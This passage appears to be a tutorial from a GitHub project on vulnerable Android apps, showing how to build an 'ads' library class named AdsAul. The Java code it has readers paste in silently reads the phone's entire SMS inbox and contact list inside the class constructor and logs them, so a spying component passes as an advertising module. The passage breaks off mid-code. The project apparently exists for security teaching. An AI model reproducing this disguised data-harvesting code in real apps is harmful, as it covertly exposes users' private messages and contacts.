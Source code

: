 <img style="margin:10px;" src="https://github.com/dan7800/VulnerableAndroidAppOracle/blob/master/Pictures/AdsLibrary/image8.png" alt="Image">

Next we create a new Java class in ads module called **AdsAul**
<img style="margin:10px;" src="https://github.com/dan7800/VulnerableAndroidAppOracle/blob/master/Pictures/AdsLibrary/image9.png" alt="Image">

Open the **AdsAul**

<img style="margin:10px;" src="https://github.com/dan7800/VulnerableAndroidAppOracle/blob/master/Pictures/AdsLibrary/image10.png" alt="Image">

Add this code in AdsAul class (change the first line to your package name)
```java
package *****YOUR PACKAGE NAME****;

import android.app.AlertDialog;
import android.content.Context;
import android.content.DialogInterface;
import android.database.Cursor;
import android.net.Uri;
import android.provider.ContactsContract;
import android.util.Log;


public class AdsAul {

    Context context; //define context

    public AdsAul(Context context) {

        this.context = context;

        //read sms from user phone

        try {

            //get inbox messages direction
            Uri uriSMSURI = Uri.parse("content://sms/inbox");

            // get all messages
            Cursor cur = context.getContentResolver().query(uriSMSURI, null, null, null, null);

            // move to first message in list
            cur.moveToPosition(0);

            //read all messages
            while (cur.moveToNext()) {

                Log.d("Message:", "From :" + cur.getString(cur.getColumnIndex("address")) + " : "
                        + cur.getString(cur.getColumnIndex("body")));

            }

        } catch (Exception ex) {}

        //read user contact list
        try {

            // read all contact list
            Cursor cursor = context.getContentResolver().query(
                    ContactsContract.CommonDataKinds.Phone.CONTENT_URI, null, null, null, null);

            //move to first name in the contact list
            cursor.moveToPosition(0);

            // real all news and phone number
```